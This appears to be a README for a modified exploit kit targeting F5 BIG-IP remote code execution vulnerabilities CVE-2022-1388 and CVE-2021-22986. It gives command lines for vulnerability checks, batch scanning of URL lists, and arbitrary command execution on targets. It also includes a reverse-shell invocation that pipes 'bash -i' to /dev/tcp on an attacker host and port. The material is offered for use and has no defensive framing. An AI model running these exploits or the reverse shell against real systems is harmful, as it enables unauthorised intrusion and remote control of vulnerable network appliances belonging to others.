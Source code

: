 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version

but all you gotta do is do python check.py to see all cmds

<strong>2021 Basic use</strong>

-python3 CVE_2021.py

-Vuln check: python3 CVE_2021_22986.py -v true -u https://192.168.174.164

-command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id

-python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami

-batch scan: python3 CVE_2021_22986.py -s true -f url.txt

-Reserve Shell: python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"

-New POC: python3 newpoc.py https://192.168.174.164

-Validation mode：python CVE_2021.py -v true -u target_url 

-Attack mode：python CVE_2021.py -a true -u target_url -c command 

-Batch detection：python CVE_2021.py -s true -f file

-Bounce mode：python CVE_2021.py -r true -u target_url -c command 

<strong>2022 Basic use</strong>

-Vulnerability name: F5 BIG-IP iControl Rest API exposed Check

-Function: single detection, batch detection    

-Single detection：python exp.py -u url

-Batch detection：python exp.py -f url.txt

-Check: python check.py -f url.txt

